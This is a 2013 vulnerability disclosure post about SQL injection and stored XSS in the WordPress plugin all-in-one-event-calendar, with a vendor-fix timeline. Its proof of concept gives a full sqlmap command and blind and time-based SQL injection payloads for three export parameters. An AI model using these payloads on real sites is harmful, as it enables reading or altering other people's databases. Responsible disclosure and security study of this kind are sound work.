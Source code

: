 +++
Description = "SQL-Injection and XSS in All-in-one-event-calendar Wordpress Plugin"
title = "SQL-Injection and XSS in All-in-one-event-calendar Wordpress Plugin"
date = "2013-11-14T22:05:00+01:00"
+++

During a recent security audit I found multiple vulnerabilities in the Wordpress plugin "all-in-one-event-calendar".
There is a lite version provided through the Wordpress site ([http://wordpress.org/plugins/all-in-one-event-calendar/](http://wordpress.org/plugins/all-in-one-event-calendar/)), and a standard version provided through a third party site ([http://time.ly/](http://time.ly/)).
Both versions were tested and are vulnerable to the reported issues.

PS: There is also a paid pro version. This was not tested but it's likely also vulnerable to the mentioned issues.

<!--more-->

**Tested versions:**

Lite Plugin: 1.9

Standard Plugin: 1.10

**SQL-Injection through export function**

The plugin offers an export function to export the event to either iCal format or Google Calender.

The Parameters "ai1ec_cat_ids", "ai1ec_post_ids" and "ai1ec_tag_ids" are all vulnerable to SQL-Injection.
By exploiting this vulnerability, a user is able to read or modify the whole Wordpress Database, or even more depending on the database configuration.

**Vulnerable code:**

[http://plugins.trac.wordpress.org/browser/all-in-one-event-calendar/tags/1.9/app/helper/class-ai1ec-calendar-helper.php#L1146](http://plugins.trac.wordpress.org/browser/all-in-one-event-calendar/tags/1.9/app/helper/class-ai1ec-calendar-helper.php#L1146)

**Proof of concept:**

To exploit this SQL-Injection through sqlmap ([https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)):
Prerequisite: You need at least one event

```
python sqlmap.py --url "http://IP/wordpress/?plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=" -p ai1ec_tag_ids,ai1ec_post_ids,ai1ec_cat_ids --risk 3 --level 3 --dbms mysql
```

**sqlmap Output:**

```
Place: GET
Parameter: ai1ec_cat_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=-8478) OR (5188=5188) AND (1391=1391&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=-2330) OR 3582=SLEEP(5) AND (8356=8356&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=

Place: GET
Parameter: ai1ec_post_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=-8080) OR (8936=8936) AND (6501=6501
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=-2544) OR 1170=SLEEP(5) AND (6134=6134

Place: GET
Parameter: ai1ec_tag_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=-6274) OR (5133=5133) AND (6779=6779&amp;ai1ec_post_ids=
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=-1181) OR 8944=SLEEP(5) AND (4367=4367&amp;ai1ec_post_ids=
```

This proves, that all 3 Parameters are vulnerable to SQL-Injection. Due to some Parameter processing before the Statement is executed (e.g. split by comma), you need to write a script to exploit this vulnerability, or use a tool like sqlmap.

**Cross Site Scripting (XSS) in location details:**

When entering Javascript code in the fields "Venue Name" and "Address" when creating a new event, it is possible to execute script code in the context of the user viewing the event.

All values should be properly escaped before they are output to HTML. This issue is present through all default Calendar Themes.

**All Issues were fixed in the following versions:**

*Lite version:* 1.10

*Standard version:* 1.10.1-standard

**Timeline:**

03.07.2013: Informed time.ly, secunia and wordpress about the vulnerabilities

03.07.2013: Received mail from time.ly saying they forwarded it to their developers

23.07.2013: Asked for an ETA because the issue is still present

23.07.2013: time.ly submitted fixed plugin to wordpress repository

24.07.2013: lite Plugin fixed ([http://plugins.trac.wordpress.org/changeset/745755/all-in-one-event-calendar/tags/1.10](http://plugins.trac.wordpress.org/changeset/745755/all-in-one-event-calendar/tags/1.10))

03.10.2013: Standard Plugin fixed ([http://time.ly/1-10-1-now-available-for-some-standard-users/](http://time.ly/1-10-1-now-available-for-some-standard-users/))

**Additional URLs:**
*Secunia Advisory:* [http://secunia.com/advisories/54038/](http://secunia.com/advisories/54038/)
